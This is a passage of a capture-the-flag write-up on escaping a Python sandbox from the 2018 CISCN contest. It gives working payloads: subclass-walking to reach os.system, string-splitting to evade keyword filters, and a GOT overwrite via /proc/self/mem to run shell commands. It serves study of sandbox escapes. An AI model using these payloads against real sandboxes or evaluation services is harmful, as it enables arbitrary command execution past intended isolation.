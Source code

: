 
## writeModify got table
Is actually a memory operation method of **/proc/self/mem**
**/proc/self/mem** is a memory image that can be used to read and write all the memory of the process, including executable code. If we can get the offset of some functions of Python, such as **system**, We can then override the purpose of getshell by overriding the got.
```py

(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```

The first address is the offset of system, the second is the offset of fopen, we can get the relevant information through **objdump**
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)



#example2018 ciscn Python sandbox escape in the National University Information Security Competition.
We can get the title source by `print ().__class__.__bases__[0].__subclasses__()[40](&quot;/home/ctf/sandbox.py&quot;).read()`, and then we can further analyze it. An escape method.
### Creating objects and using Python to manipulate string characteristics
```py

x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')

```

### Hijack got table getshell
```py

(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))





(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))



```
